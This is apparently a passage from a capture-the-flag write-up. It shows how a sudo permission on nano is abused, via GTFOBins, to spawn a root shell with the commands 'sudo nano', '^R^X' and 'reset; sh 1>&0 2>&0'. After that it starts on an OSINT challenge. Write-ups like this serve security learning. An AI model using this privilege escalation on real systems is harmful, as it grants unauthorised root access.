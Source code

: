 Looking at gtfobins for nano it is possible to use sudo to get a root shell from within nano. 

[https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/)

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

[<img src="img/nanogtfo.png"
  style="width: 600px;"/>](img/nanogtfo.png)


## Hungry Punk

OSINT challenge.  Started with just a pokemon go map and a clue. 
